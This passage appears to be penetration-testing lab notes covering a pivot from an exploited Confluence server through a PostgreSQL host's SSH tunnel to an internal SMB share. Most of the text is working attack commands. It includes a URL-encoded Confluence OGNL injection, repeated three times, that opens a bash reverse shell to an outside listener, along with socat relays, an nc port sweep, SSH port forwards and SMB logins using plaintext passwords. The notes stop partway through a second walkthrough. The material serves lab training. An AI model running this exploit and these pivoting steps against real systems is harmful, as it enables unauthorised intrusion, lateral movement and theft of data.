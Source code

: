 lets try to use some of these passwords with ssh (database_admin, sqlpass123)
```
socat TCP-LISTEN:2222,fork TCP:10.4.234.215:22
```

from kali
`ssh database_admin@192.168.234.63 -p2222`

### SSH Tunneling
connect to confluence
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```

ssh from confluence to pg, first check for tty functionality
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ssh database_admin@10.4.234.215
```

once connected to pg, we can enumerate the network
```
ip addr # discover network interfaces
ip route # discover subnets in routing table
```

in absence of other tools, do port sweep for 445
`for i in $(seq 1 254); do nc -zv -w 1 172.16.234.$i 445; done`

### set up local port forward to transfer smb info to kali
- use OpenSSH's -L option, which takes two sockets (in the format IPADDRESS:PORT) separated with a colon as an argument (e.g. IPADDRESS:PORT:IPADDRESS:PORT). The first socket is the listening socket that will be bound to the SSH client machine. The
- second socket is where we want to forward the packets to
- from confluence host - forward packets through the db ssh tunnel to the smb host
- note that -N means you only get output related to the port forward
`ssh -N -L 0.0.0.0:4455:172.16.234.217:445 database_admin@10.4.234.215`

now we need a second reverse shell on confluence
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/9999%200%3E%261%27%29.start%28%29%22%29%7D/
nc -nvlp 9999
```

need to confirm our port forward
`ss -ntplu`

and interact with smb from kali
`smbclient -p 4455 -L //192.168.234.63/ -U hr_admin --password=Welcome1234`

after listing, lets open smb shell
```
smbclient -p 4455 //192.168.234.63/scripts -U hr_admin --password=Welcome1234
ls
get Provisioning.ps1
```
### VM2
- step one get reverse shell on confluence
```
curl -v http://192.168.234.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.181/4444%200%3E%261%27%29.start%28%29%22%29%7D/
```
`nc -nvlp 4444`
- step two set up local port forward via pg ssh tunnel (sqlpass123)